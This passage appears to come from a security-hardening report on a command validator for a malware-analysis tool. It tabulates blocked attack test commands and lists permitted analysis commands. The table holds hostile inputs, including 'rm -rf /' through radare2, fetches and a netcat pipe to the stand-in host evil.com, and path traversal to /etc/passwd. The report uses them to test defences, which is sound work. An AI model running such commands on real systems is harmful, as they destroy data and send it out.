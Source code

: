 ### 4.3 Attack Simulation Results

| Attack Vector | Test Command | Result |
|--------------|-------------|--------|
| Python code execution | `python -c 'print("pwned")'` | ✓ BLOCKED |
| Docker container escape | `docker run alpine sh` | ✓ BLOCKED |
| Radare2 debug mode | `radare2 -d malware.exe` | ✓ BLOCKED |
| Radare2 network access | `radare2 http://evil.com/mal` | ✓ BLOCKED |
| Radare2 shell execution | `radare2 -c '!rm -rf /'` | ✓ BLOCKED |
| File magic compilation | `file -C malicious.magic` | ✓ BLOCKED |
| XXD reverse mode | `xxd -r payload.hex` | ✓ BLOCKED |
| Unzip path traversal | `unzip ../../../etc/passwd` | ✓ BLOCKED |
| Tar absolute paths | `tar --absolute-names -x` | ✓ BLOCKED |
| OpenSSL key generation | `openssl genrsa -out key` | ✓ BLOCKED |
| Command substitution | `strings $(whoami)` | ✓ BLOCKED |
| Pipe injection | `file test\|nc evil.com` | ✓ BLOCKED |

**Block Rate:** 12/12 (100%)
**False Positives:** 0
**Bypass Attempts:** 0 successful

---

## 5. Legitimate Use Cases Verified

Ensured legitimate analysis workflows still function:

### 5.1 File Analysis Workflow
```python
# These commands pass validation
['file', '--brief', 'malware.exe']
['strings', '-a', 'malware.exe']
['xxd', '-l', '100', 'malware.exe']
['yara', 'rules.yar', 'malware.exe']
```
**Status:** ✓ All pass validation

### 5.2 Binary Analysis Workflow
```python
# Safe radare2 operations allowed
['radare2', '-q', '-A', 'malware.exe']  # Quiet analysis
['radare2', '-c', 'pdf', 'malware.exe']  # Print functions
['radare2', '-V']                        # Version check
```
**Status:** ✓ All pass validation
